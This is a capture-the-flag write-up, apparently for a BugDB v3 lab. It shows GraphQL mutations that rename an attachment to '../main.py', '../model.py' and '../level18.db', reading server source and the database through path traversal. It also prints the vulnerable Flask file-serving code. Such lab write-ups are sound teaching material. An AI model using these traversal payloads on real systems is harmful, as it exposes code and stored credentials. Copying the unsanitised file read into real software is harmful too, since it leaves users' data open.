









# BugDB v3 - FLAG0

## 0x00 Overview

Pretty much same as [BugDB v1][1] and [v2][2]. But this one also need to combine with arbitary file reading.

## 0x01 Take a Tour

### query

There is attachments available. But initially they are all empty.

```graphql
query{
  user{
    edges{
      node{
        id
        username
        bugs{
          edges{
            node{
              id
              private
              reporterId
              attachments{
                edges{
                  node{
                    id
                    bugId
                    filename
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```



### attachFile

Try attach a file.

```graphql
mutation{
  attachFile(bugId:1, contents:"test"){
    ok
  }
}
```



And make a query again, will see a new attachment is available.



It seems we can read the file somewhere. 

http://127.0.0.1/xxxxxxxxxx/attachments/1



So looks like the file name is binding with the id.

### modifyAttachment

Try modify filename.

```graphql
mutation{
  modifyAttachment(id:1, filename:"../main.py"){
    ok
  }
}
```



And make a query again, will see file name is changed to **../main.py**.



Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1



Here we got the whole [main.py](./main.py) file.

```python
from flask import Flask, abort, redirect, request, Response 
from flask_graphql import GraphQLView 
from model import db_session, Attachment 
from schema import schema 

app = Flask(__name__) 

@app.route('/') 
def main(): 
  return 'GraphiQL' 

@app.route('/attachment/')
@app.route('/attachments/') 
def attachment(id): 
  attachment = Attachment.query.filter_by(id=id).first() 
  return file('attachments/%s' % attachment.filename, 'r').read() 

app.add_url_rule('/graphql', view_func=GraphQLView.as_view('graphql', schema=schema, graphiql=True, context={'session': db_session})) 

if __name__ == "__main__": 
  app.run(host='0.0.0.0', port=80) 
```

### Read model

It looks **model** contains some interesting thing with **db_session**. Try read this file again.

```graphql
mutation{
  modifyAttachment(id:1, filename:"../model.py"){
    ok
  }
}
``` 

Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1



Here we got the [model.py](./model.py) file.

```python
from sqlalchemy import create_engine 
from sqlalchemy.ext.declarative import declarative_base 
from sqlalchemy.orm import relationship, scoped_session, sessionmaker 
from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String 

engine = create_engine('sqlite:///level18.db', convert_unicode=True) 
db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) 
Base = declarative_base() 
Base.query = db_session.query_property() 

class User(Base): 
  __tablename__ = 'users' 
  id = Column(Integer, primary_key=True) 
  username = Column(String(255)) 
  password = Column(String(255)) 
  bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') 

class Bug(Base): 
  __tablename__ = 'bugs' 
  id = Column(Integer, primary_key=True) 
  reporter_id = Column(Integer, ForeignKey('users.id')) 
  reporter = relationship(User, primaryjoin=reporter_id == User.id) 
  text = Column(Text(65536)) private = Column(Boolean()) 
  attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') 

class Attachment(Base): 
  __tablename__ = 'attachments' 
  id = Column(Integer, primary_key=True) 
  bug_id = Column(Integer, ForeignKey('bugs.id')) 
  bug = relationship(Bug, primaryjoin=bug_id == Bug.id) 
  filename = Column(String(255))
```

## 0x02 FLAG

There is a **level18.db** file available here. So let go get it again.

```graphql
mutation{
  modifyAttachment(id:1, filename:"../level18.db"){
    ok
  }
}
```

Get the FLAG



[1]: ../../bugdb_v1/flag0
[2]: ../../bugdb_v2/flag0